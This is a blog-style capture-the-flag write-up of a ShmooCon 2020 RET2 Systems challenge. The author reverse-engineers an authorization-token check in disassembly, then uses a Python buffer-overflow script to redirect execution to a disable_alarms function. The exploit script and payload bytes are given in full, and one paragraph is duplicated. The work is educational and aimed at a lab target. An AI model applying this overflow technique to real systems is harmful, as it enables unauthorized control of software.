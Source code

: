 ```yaml
---
title: "Binex at ShmooCon"
date: 2020-04-30T17:05:44-04:00
draft: false
showToc: true
description: "Ret2Systems Binary Exploitation Challenge"
tags: ["binex"]
categories: ["ctf"]
---
```

<!-- ---
layout: post
title: Binex at ShmooCon
subtitle: My first exposure to binary exploitation
image: /schmoocon/pictures/scenario.png
tags: binex
--- -->


At ShmooCon 2020, RET2 Systems was hosting a [challenge](https://wargames.ret2.systems/level/shmoo2020) where they had prototype waterbottles held within a laser system with alarms, run off of a Raspberry Pi. The goal was to access the Raspberry Pi, disable the lasers and alarms, all within their provided Wargames environment. 

![](/schmoocon/pictures/assets.png)

Provided with the disassembly, data, source, and python script to run an interactive response, you were left to your own devices to figure out a way to run 

---
## Dawn of the first day
Pretty much busy the day we got to ShmooCon, so I didn't do much with the challenge. I did, however, look at the disassembly, and then noped out because I had never done disassembly (a mistake on my part)


---
## Dawn of the second day
I was strongly against starting my journey into binary exploitation, but because my teammates flatearth and kimpossible had solved the challenge, I thought "if they can do it, i can too."

The day started off with 25 water bottles left, it seemed reasonable that I would find my way to getting one. 

The code provided had recommended that we look into the function `validate_authorization_token`, so I set a breakpoint at that function

```
break validate_authorization_token
```
---
## Analyzing the first jump
```
Function validate_authorization_token
400b1d:  push    rbp
400b1e:  mov     rbp, rsp
400b21:  push    rbx
400b22:  sub     rsp, 0x28
400b26:  mov     qword [rbp-0x28], rdi
400b2a:  mov     qword [rbp-0x30], rsi
400b2e:  mov     rax, qword [rbp-0x28]
400b32:  mov     esi, 0x11
400b37:  mov     rdi, rax
400b3a:  call    strnlen
400b3f:  cmp     rax, 0x11
400b43:  je      0x400b4f
```

Before the first jump function, I saw the following code: 
```
400b3a:  call    strnlen
400b3f:  cmp     rax, 0x11
```
The disassembly was showing that the code was comparing the length of the string stored into rax (the authorization code that we would eventually generate), to the hex code of 0x11 (17 in decimal). If true, then the next step would be to follow the jump instruction, `400b43:  je      0x400b4f`.

I made an authorization token of `00000000000000000`, 17 "0's" just to return true for the compare length function to jump to the next function.


---
## Analyzing the second jump
```
400b4f:  mov     rax, qword [rbp-0x28]
400b53:  add     rax, 0x4
400b57:  movzx   eax, byte [rax]
400b5a:  cmp     al, 0x2d
400b5c:  je      0x400b68
```
The first thing I saw was the compare function at `0x400b5a`, that would compare info stored in register al with 0x2d, hex for "-". 

Starting from the beginning, you see that the quad word stored at rbp-0x28 is stored into rax. After being stored into rax, the byte is shifted by 0x4? The byte[rax] is stored into eax, which then the register al is compared to 0x2d ("-" in decimal). This being said, it was seeing if the 4th (0,1,2,3,4) integer was tac, so I changed my authorization token to 0000-000000000000, stepped through the program, and successfully jumped to the next function. 
**In all honesty, this was mostly seeing the 4th integer being compared to tac, and then changing my authorization token and looking at the register to see if al was 0x2d.**


---
## Analyzing the third jump
```
400b68:  mov     rax, qword [rbp-0x28]
400b6c:  mov     esi, 0x4
400b71:  mov     rdi, rax
400b74:  call    xorsum
400b79:  mov     ebx, eax
400b7b:  mov     rax, qword [rbp-0x30]
400b7f:  mov     esi, 0x9
400b84:  mov     rdi, rax
400b87:  call    xorsum
400b8c:  cmp     bl, al
400b8e:  je      0x400b9a
```

### *Disclaimer*
*This section is extremely non-scientific, with me testing random numbers and looking at the registers.*

The disassembly was comparing the two registers "al" and "bl", which was the first two characters and last two characters of the first half of the authorization token. Instead of analyzing this section, I decided to input random numbers for the first four of the auth token and look at the registers of al and bl to see if they were being xorsum'd correctly. Again, not the best way to do this.

I was left with `1110-` as the first half of my auth token.

---
## Analyzing the back half of the auth token
With the first portion until the tac of the auth token solved correctly, I had the entire 12 back characters to figure out. Luckily, the RET2 team had left a little something for us at `0x400c0d`, where the disassembly outright says `400c0d:  mov     esi, 0x401023  "ret2 systems"`. ret2 systems = 12 characters. Coincidence? I thought not. Instead of looking into whatever voodoo magic the rest of the assembly code was performing, I restarted my program, entered the first 5 of my auth token, and added "ret2 systems" to the end.

My thought process here, was if they are comparing the back half to ret2 systems, I should enter ret2 systems to retrieve whatever the program is expecting to become ret2 systems. It surprisingly worked. After stepping through the looped assembly three times, before the program jumps to the next address I inspected the registers and came across 0x00603015 stored into rbp-0x28. It looked familiar (I forgot from where) and so I used `x /4x 0x00603015` to display 4 bytes of information stored at that address, and it returned a bunch of hex. 

0x00603015 - the address that held the string "ret2 systems" after it had been XOR'd to provide the back half of the authorization token

Keep in mind that the hex returned by the program is displayed in little endian, where the information is stored from left into bottom and right into top, per byte. The returned information was 3 bytes, so I had to reassemble from little endian into a normal readable format. `\x89\xbb\x69\x2b\xdb\xad\x64\x6a\x8f\xbb\x70\x6a` is what I ended up with as the back half of my auth token.Keep in mind that the hex returned by the program is displayed in little endian, where the information is stored from left into bottom and right into top, per byte. The returned information was 3 bytes, so I had to reassemble from little endian into a normal readable format. `\x89\xbb\x69\x2b\xdb\xad\x64\x6a\x8f\xbb\x70\x6a` is what I ended up with as the back half of my auth token.

And voila, we now had a full auth token.

---
## Disabling the systems
After deleting my breakpoints, I could now enter as my auth token through the provided python script. The system now authenticates us as a laser technician, and allows us to disable the lasers by entering `disable-systems` which would only disable the lasers, while we wanted to disable both the lasers and alarms. 


`0x400c4e` was a memory address that provided the function to disable the alarms, and I had no idea how to access it. The next step provided a way to access it.

---
## *Whydoesthishateme*
Unfortunately, my account was reloaded and all of my code was lost.

*Sigh*

Thankfully, I managed to rerun all the steps I took in order to gain an authorization token, and I had a plan to disable the alarm system this time.

With 3 water bottles left, I accessed the debugger and found my authorization token (which had changed), logged in, and wrote a python script to memory overflow the program and jump to the address of the disable_alarms function. Everything worked fine until I reached the point of utilizing the overflow to point the program towards `400c4e`, where it started to show (I inspected the rax register to see the overflow) hex 0x0a, which is \n in decimal. To correct this error, I added 0's to the back of my pointer to clear that newline, and it worked. In another world, I would have utilized the p64 to pack `0x400c4e` into an 8 byte representation and added that to the back of my overflow. 


Below is the python script that I used to solve the problem.
```
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# Unpack 8-Byte-long string 's' into a Python integer
def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
data = p.readuntil('\n')

p.sendline('1110-' +'\x89\xbb\x69\x2b\xdb\xad\x64\x6a\x8f\xbb\x70\x6a')
p.readuntil('\n')
p.sendline('disable-system')
p.readuntil('\n')
p.sendline('because i wanted to')
p.readuntil('\n')
p.sendline('disable-system')
p.readuntil('\n')

p.sendline('0'*227+ '\x4e\x0c\x40' +'\x00')
p.interactive()
```

It worked perfectly, yet I had missed the chance to get a ret2 systems waterbottle. Kudos to Xasmatwn1 for getting it, and thank you to ret2 systems for hosting this challenge and providing an environment for me to learn.